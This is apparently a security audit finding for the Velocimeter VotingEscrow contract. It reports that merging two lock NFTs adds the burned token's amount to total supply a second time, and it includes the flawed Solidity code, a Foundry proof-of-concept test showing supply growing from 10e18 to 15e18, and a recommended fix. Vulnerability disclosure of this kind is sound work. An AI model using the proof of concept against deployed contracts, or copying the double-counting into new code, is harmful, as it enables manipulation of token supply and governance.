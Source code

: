 Breezy Chrome Baboon

High

# The total supply of VotingEscrow contract can be inflated

## Summary
The total supply of VotingEscrow contract can be inflated.

## Vulnerability Detail
When a user decides to merge two tokens, for example, token1 into token2, the locked amount in token1 will be transferred to the locked amount in token2, and the longest lock duration will be set for token2, as token1 will be burned.

```solidity
uint value0 = uint(int256(_locked0.amount));
uint end = _locked0.end >= _locked1.end ? _locked0.end : _locked1.end;

locked[_from] = LockedBalance(0, 0);
_checkpoint(_from, _locked0, LockedBalance(0, 0));
_burn(_from);
_deposit_for(_to, value0, end, _locked1, DepositType.MERGE_TYPE);
```

The `_deposit_for` function is used for transferring the locked amount of token1, where the actual problem lies. Before transferring the locked amount of token1, the total supply is increased by the locked amount of token1.

```solidity
    function _deposit_for(
        uint _tokenId,
        uint _value, // value0 = _locked0.amount
        uint unlock_time,
        LockedBalance memory locked_balance,
        DepositType deposit_type
    ) internal {
        LockedBalance memory _locked = locked_balance;
        uint supply_before = supply;

        supply = supply_before + _value;

        //......
    }
```

This will lead to inflation of the supply in the `VotingEscrow` contract, and the sum of the balances of all NFTs will not be equal to the total supply. Everyone who merges two tokens can easily add more tokens in supply.

## Impact
Manipulating the total supply of the `VotingEscrow` contract.

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1209

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L787

## Tool used

Manual Review

## PoC
Paste the test into `VotingEscrow.t.sol`

```solidity
    function testMergeForInflation() public {
        //forge test -vvvv --match-test testMergeForInflation
        int amount;
        uint duration;

        // Owner transfer 5e18 to Bob.
        address bob = vm.addr(77777);
        flowDaiPair.transfer(address(bob), 5 * TOKEN_1);

        // Owner create lock amount: 5e18 & duration: 1 week
        flowDaiPair.approve(address(escrow), 5 * TOKEN_1);
        uint256 lockDuration = 7 * 24 * 3600; // 1 week
        escrow.create_lock(5 * TOKEN_1, lockDuration);

        // Asserts for owner lock.
        (amount, duration) = escrow.locked(1);
        assertEq(amount, 5e18);
        assertEq(duration, lockDuration);
        assertEq(escrow.ownerOf(1), address(owner));
        assertEq(escrow.balanceOf(address(owner)), 1);

        vm.stopPrank();

        vm.startPrank(bob);
        // Bob create lock amount: 5e18 & duration: 1 week
        flowDaiPair.approve(address(escrow), 5 * TOKEN_1);
        escrow.create_lock(5 * TOKEN_1, lockDuration);

        vm.stopPrank();

        // Asserts for bob lock.
        (amount, duration) = escrow.locked(2);
        assertEq(amount, 5e18);
        assertEq(duration, lockDuration);
        assertEq(escrow.ownerOf(2), address(bob));
        assertEq(escrow.balanceOf(address(bob)), 1);

        // Assert for total supply: 5e18 + 5e18 = 10e18
        assertEq(escrow.supply(), 10e18);

        // Bob approve tokenId: 2 to owner
        vm.startPrank(bob);
        escrow.approve(address(owner), 2);
        vm.stopPrank();

        // Owner merge tokenId:1 and tokenId:2
        escrow.merge(1, 2);

        (amount, duration) = escrow.locked(1);
        assertEq(amount, 0);
        assertEq(duration, 0);
        assertEq(escrow.ownerOf(1), address(0));
        assertEq(escrow.balanceOf(address(owner)), 0);
        assertEq(escrow.balanceOf(address(bob)), 1);

        // Assert for total supply: 15e18
        assertEq(escrow.supply(), 15e18);
    }
```

## Recommendation
Do not add the locked amount of token1 to the supply during the merge, or use the same technique as in the split function: first remove the locked amount of token1 from the supply, and then add it.